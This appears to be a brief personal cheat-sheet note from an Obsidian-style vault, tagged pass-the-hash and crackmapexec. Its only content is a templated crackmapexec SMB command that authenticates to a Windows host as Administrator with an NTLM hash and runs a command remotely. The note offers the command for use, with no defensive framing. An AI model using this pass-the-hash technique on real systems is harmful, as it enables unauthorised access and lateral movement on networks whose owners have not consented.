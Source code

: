 ```yaml
---
created: 2024-12-21

---
```

------------
- tags: #passthehash #windows #crackmapexec 
--------

crackmapexec smb x.x.x.x -u Administrator -H "hash NTLM" -x ""


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
